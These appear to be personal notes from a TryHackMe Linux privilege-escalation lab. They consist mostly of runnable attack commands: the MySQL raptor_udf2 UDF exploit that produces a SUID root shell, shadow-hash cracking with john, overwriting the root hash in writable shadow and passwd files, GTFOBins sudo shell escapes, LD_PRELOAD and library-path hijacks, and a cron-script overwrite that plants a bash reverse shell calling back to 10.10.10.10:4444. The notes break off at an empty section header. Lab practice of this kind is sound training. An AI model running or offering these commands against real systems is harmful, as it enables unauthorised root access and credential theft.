 #first we have to login with ssh credentials 
ssh user@IP
password - password321

#run id command to get user information
id
-----------------------------------------------this MySQL Exploit--------------------------------------
#we will use MySQL service to run system commands as root .
Exploit link is given below
<link - https://www.exploit-db.com/exploits/1518 >

#we will compile the exploit
gcc -g -c exploit.c -udf //here are some changes that replace -udf with -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

#Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

#Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

#Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

#Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
//this is for just for the procedure no need in real life
rm /tmp/rootbash
exit

-------------------------------------------------Reading shadow file------------------------------
# to check whether file is readable by the user or not
ls -l /etc/shadow

#capture the root password between first : and second :
#and save it in my own file named tmp.txt now decrpyt it using john

john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/Documents/tryhackme/tmp.txt


--------------------------------------writable shadow file-----------------------------------
#to check file permission
ls -l /etc/shadow

#Generate a new password with a password of choice

mkpasswd -m sha-512 newpasswordhere

#and replace root hash with new generated hash that way we will get root access with our password

----------------------------------------writable passwd file-----------------------------------------
#The /etc/passwd file contains information about user accounts
#checking permission of the file passwd
ls -l /etc/passwd

#Generate a new password hash with a password of your choice:

openssl passwd newpasswordhere


#edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

#Switch to the root user, using the new password:
su root


#Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").
#Now switch to the newroot user, using the new password:
su newroot

---------------------------sudo - shell escape sequece------------------------------------

#type 
sudo -l

#this will give all programs which user can run as root this way we can exploit that program to get root


we will use GTFObin for exploit

Here are various ways the sudo permission of these programs can be abused:

    sudo iftop ====> then ====> !/bin/bash
    sudo find /home -exec /bin/bash \;
    sudo nano ====> then ====> ^R^X ====> reset; sh 1>&0 2>&0
    sudo vim -c '!sh'
    sudo man man ====> then ====> !/bin/bash
    sudo awk 'BEGIN {system("/bin/sh")}'
    sudo less /etc/hosts ====> then ====> !/bin/bash
    sudo ftp ====> then ====> !/bin/bash
    echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
    TERM= sudo more /etc/profile ====> the ====> !/bin/sh


#for apache server we are not provided with exploit in GTFObins so we will use this
sudo apache -f /etc/shadow

----------------------------------


---------------------------------------Sudo Environment Variable------------------------------

Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

#sudo -l

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

#gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

#sudo LD_PRELOAD=/tmp/preload.so program-name-here

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd(list dynamic dependencies) against the apache2 program file to see which shared libraries are used by the program:

#ldd /usr/sbin/apache2

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

#gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

#sudo LD_LIBRARY_PATH=/tmp apache2

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.


----------------------------------- Cron jobs File Permission ------------------------------------------------

View the contents of the system-wide crontab:

#cat /etc/crontab

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

#cat /etc/crontab

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

#locate overwrite.sh

Note that the file is world-writable:

#ls -l /usr/local/bin/overwrite.sh
<here anyone can write its content so we will write in to it>
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
--------------------------
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1     //here instead of 10.10.10.10 write your own IP
-----------------------------
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

#nc -nvlp 4444


---------------------------------- Cron Jobs PATH Environment variable ------------------------






